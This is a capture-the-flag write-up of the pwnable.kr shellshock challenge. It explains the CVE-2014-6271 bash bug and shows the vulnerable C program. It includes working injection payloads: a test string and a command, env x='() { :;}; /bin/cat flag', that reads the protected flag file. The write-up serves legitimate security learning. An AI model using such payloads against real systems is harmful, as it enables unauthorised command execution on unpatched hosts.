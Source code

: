```yaml
---
layout: post
title: Binary Exploitation&#58; Pwnable.kr/shellshock
---
```


## Pwnable.kr: shellshock - Write-up

This challenge is centered around ```CVE-2014-6271``` better known as ```shellshock```. The ```shellshock``` vulnerability leverages a bug that occurs when a child bash shell is spawned. Basiaclly, an environment variable can be assigned an arbitrary function, but when a child bash shell reads in the environment variables, it fails to stop reading at the end of the function and continues to execute whatever arbitrary code comes after. More information can be found [here](https://fedoramagazine.org/shellshock-how-does-it-actually-work/).

### The C file

We can see from the c file that the program simply sets some ID variables and calls a bash shell with an ```echo``` command.
```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

From the name of the challenge, we can assume this is a ```shellshock``` vulnerability. No fancy programming is necessary to complete this challenge. We only need to craft an environment variable to be read by the binary.

### pwn

First, we use the following script to ensure that the vulnerability exists.
```
shellshock@pwnable:~$ env x='() { :;}; echo TEST' ./bash -c :
TEST
```

Great, now let's ```pwn```.
```
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
```

Et Voila!
